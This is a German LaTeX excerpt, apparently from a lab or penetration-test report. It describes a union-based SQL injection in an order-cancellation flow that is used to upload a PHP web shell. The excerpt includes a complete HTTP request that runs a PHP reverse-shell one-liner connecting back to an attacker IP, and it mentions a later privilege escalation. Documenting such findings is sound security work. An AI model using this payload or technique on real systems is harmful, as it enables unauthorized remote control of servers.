 
\section{\makecvssbadge Grüner Drache: Unsichere Order-Cancellation und File Upload über Union-Based SQL-Injection}

\subsection*{Proof of concept}
Zunächst muss mit einem Nutzer eine Bestellung aufgegeben werden, welche im Folgenden durch den Admin-Zugriff bestätigt werden kann. Danach muss die Bestellung durch den Nutzer gecancelt werden, dabei wird ein unsichere PHP Skript ausgeführt. Der initiale HTTP-Post kann abgefangen werdne und die Payload dieser Nachricht so abgeändert werden, dass eine WebShell mit dem SQL Befehl hochgeladen werden kann. Die Abgeänderte Payload mit der Union-Based SQL Injection ist in der Folgenden Listing aufgeführt. 

Die hochgeladenen Webshell ist unter der Domain \texttt{http://10.0.68.105/shell5.php} erreichbar. Über den Post-Parameter cmd können nun Befehle auf dem Webserver ausgeführt werden. Dadurch kann eine PHP-Reverse-Shell erstellt werden, welche dem Angreifer vollen Zugriff über den Webserver ermöglicht. Dieser Reverse Shell kann zusätzlich upgegraded werden, um Steuerzeichen verwenden zu können und mit Hilfe einer Privilegien-Eskalation administrativen Zugriff über den Webserver zu erhalten.

\begin{listing}[!ht]
\begin{verbatim}
GET /shell5.php?cmd=php+-r+'$sock%3dfsockopen("10.0.32.2",9001)%3bexec("/bin/sh+-i +<%263+>%263+2>\%263")%3b' HTTP/1.1
Host: 10.0.68.105 
[...]   
\end{verbatim}
\caption{Reverse Shell insertion}
\label{listing:drache:reverse-shell}
\end{listing}



